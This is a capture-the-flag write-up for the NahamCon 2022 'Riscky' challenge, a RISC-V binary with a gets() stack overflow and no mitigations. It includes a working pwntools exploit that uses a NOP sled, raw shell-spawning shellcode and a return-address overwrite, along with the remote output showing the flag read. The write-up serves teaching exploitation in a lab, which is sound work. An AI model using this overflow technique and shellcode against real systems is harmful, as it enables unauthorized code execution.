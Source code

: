 # NahamCon CTF 2022

## Riscky

> Don't segfault or it's game over!
>
> Author: @M_alpha#3534
>
> [`riscky.zip`](riscky.zip)

Tags: _pwn_ _riscv_ _riscv64_ _shellcode_ 


## Summary

Unconstrained `riscv` binary with `gets`.

Newskool _gets_ oldskooled.


## Analysis

### Checksec

```
    Arch:     em_riscv-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000)
    RWX:      Has RWX segments
```

No mitigations in place, choose your own adventure.


### Ghidra Decompile

```c
undefined8 main(void)

{
  char acStack520 [500];
  undefined4 local_14;
  
  local_14 = 0;
  setbuf((FILE *)stdin,(char *)0x0);
  setbuf((FILE *)stdout,(char *)0x0);
  signal(0xb,failed);
  puts("Don\'t miss!");
  printf("> ");
  gets(acStack520);
  return 0;
}
```

Yeah, `gets`--there's your problem.  Also no mitigations or ASLR.

If this were `x86_64`, I'd tell you that `acStack520` is `520` bytes from the end of the stackframe, IOW, write out `520` bytes of garbage then your ROP chain.  However RISC-V does not `push` a return address to the stack on `call`.  RISC-V does not _push_ or _pop_.  RISC-V simply allocates a stackframe on `call` and the return address is _in_ the stackframe.  Just remember to subtract 8 (if 64bit), IOW, write out `520 - 8` bytes of garbage and then your ROP chain.


### Let's go shopping!

We're going to need some tools to pull off this exploit:

```bash
dpkg --add-architecture riscv64
apt-get update
apt-get -qy install build-essential gdb-multiarch
apt-get -qy install binutils-riscv64-linux-gnu binutils-riscv64-unknown-elf
apt-get -qy install qemu-system e2tools qemu-user qemu-user-binfmt "binfmt*"
apt-get -qy install qemu-user-static
```

> The above may not be 100% accurate, I already have a container I use for pwn, so I just pulled out the commands from my `Dockerfile` I thought you'd need.

We'll need Docker as well.  I'm using Docker for MacOS.

We'll also need some shellcode; this was the first Google hit: [http://shell-storm.org/shellcode/files/shellcode-908.php](http://shell-storm.org/shellcode/files/shellcode-908.php).


### Prep container for remote debugging

After extracting `riscky.zip` edit `start.sh` and add `-g 9000`, e.g.:

```bash
#!/bin/sh

su challenge -c /bin/sh -c '/usr/bin/qemu-riscv64 -g 9000 /riscky'
```

Then create a `flag.txt` file, e.g.:

```bash
echo flag{flag} >flag.txt
```

Finally, build and run the container:

```bash
docker build --no-cache -t riscky .
docker run --rm -d --name riscky -p 9000:9000 -p 9999:9999 riscky
```


### Locate the `gets` buffer

To start `riscky` executing, just `nc localhost 9999`, then from `gdb` in another terminal type:

```
file riscky
set sysroot /usr/riscv64-linux-gnu/
target remote gateway.docker.internal:9000
```

> `gateway.docker.internal` is a MacOS Docker thing, if you're on Linux, it's probably just `localhost`.

If all went well, and if you're using something like GEF, you should see something like this:

![](gdb.png)

Next disassemble `main` and set a breakpoint _after_ `gets`, then continue:

```
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000010620 <+0>:	addi	sp,sp,-528
   0x0000000000010624 <+4>:	sd	ra,520(sp)
   0x0000000000010628 <+8>:	sd	s0,512(sp)
   0x000000000001062c <+12>:	addi	s0,sp,528
   0x000000000001062e <+14>:	li	a1,0
   0x0000000000010630 <+16>:	sd	a1,-528(s0)
   0x0000000000010634 <+20>:	sw	a1,-20(s0)
   0x0000000000010638 <+24>:	auipc	a0,0x60
   0x000000000001063c <+28>:	ld	a0,568(a0) # 0x70870
   0x0000000000010640 <+32>:	ld	a0,0(a0)
   0x0000000000010642 <+34>:	jal	ra,0x1b126 <setbuf>
   0x0000000000010646 <+38>:	ld	a1,-528(s0)
   0x000000000001064a <+42>:	auipc	a0,0x60
   0x000000000001064e <+46>:	ld	a0,478(a0) # 0x70828
   0x0000000000010652 <+50>:	ld	a0,0(a0)
   0x0000000000010654 <+52>:	jal	ra,0x1b126 <setbuf>
   0x0000000000010658 <+56>:	auipc	a1,0x0
   0x000000000001065c <+60>:	addi	a1,a1,-74 # 0x1060e <failed>
   0x0000000000010660 <+64>:	li	a0,11
   0x0000000000010662 <+66>:	jal	ra,0x14268 <ssignal>
   0x0000000000010666 <+70>:	auipc	a0,0x3c
   0x000000000001066a <+74>:	addi	a0,a0,138 # 0x4c6f0
   0x000000000001066e <+78>:	jal	ra,0x19d00 <puts>
   0x0000000000010672 <+82>:	auipc	a0,0x3c
   0x0000000000010676 <+86>:	addi	a0,a0,138 # 0x4c6fc
   0x000000000001067a <+90>:	jal	ra,0x1513e <printf>
   0x000000000001067e <+94>:	addi	a0,s0,-520
   0x0000000000010682 <+98>:	jal	ra,0x19ab2 <gets>
   0x0000000000010686 <+102>:	ld	a0,-528(s0)
   0x000000000001068a <+106>:	ld	s0,512(sp)
   0x000000000001068e <+110>:	ld	ra,520(sp)
   0x0000000000010692 <+114>:	addi	sp,sp,528
   0x0000000000010696 <+118>:	ret
End of assembler dump.
gef➤  b *main+102
Breakpoint 1 at 0x10686
gef➤  c
Continuing.
```

From your `nc localhost 9999` session input `AAAA`, `gets` should return and execution should halt; get the location of `a0` (buf), and we're done:

```
gef➤  i r a0
a0             0x40008009b8	0x40008009b8
gef➤  x/1s 0x40008009b8
0x40008009b8:	"AAAA"
```


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 30533)
    buf = 0x00000040008009b8
else:
    if args.DEBUG:
        p = process('qemu-riscv64 -g 9000 -L /usr/riscv64-linux-gnu riscky'.split())
    else:
        p = process('qemu-riscv64 riscky'.split())
    buf = 0x0000004000800188

context.arch = 'riscv'
context.bits = 64

# http://shell-storm.org/shellcode/files/shellcode-908.php
shellcode = b'\x01\x11\x06\xec\x22\xe8\x13\x04\x21\x02\xb7\x67\x69\x6e\x93\x87\xf7\x22\x23\x30\xf4\xfe\xb7\x77\x68\x10\x33\x48\x08\x01\x05\x08\x72\x08\xb3\x87\x07\x41\x93\x87\xf7\x32\x23\x32\xf4\xfe\x93\x07\x04\xfe\x01\x46\x81\x45\x3e\x85\x93\x08\xd0\x0d\x93\x06\x30\x07\x23\x0e\xd1\xee\x93\x06\xe1\xef\x67\x80\xe6\xff'

payload  = b''
payload += ((520 - 8 - len(shellcode)) // len(asm('nop'))) * asm('nop')
payload += shellcode
payload += p64(buf)

p.sendlineafter(b'> ', payload)
p.interactive()
```

This is as oldskool as it _gets_, no ASLR, a pretty good guess at the stack/buf location, a nopsled followed by some script kiddie shellcode we got off the Internet.

Now you know RISC-V.

> pwntools RISC-V support is, well, not 100%, e.g. `binary = context.binary = ELF('./riscky')` didn't work, so I had to manually set in code `context.arch` and `context.bits` for `asm`.  The other option was to use `p32(0x13)` for `nop`.

Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to challenge.nahamcon.com on port 31603: Done
[!] Could not find system include headers for riscv-linux
[*] Switching to interactive mode
$ cat flag.txt
flag{834e1b43c9cdfab13d9352fc949cec7b}
```
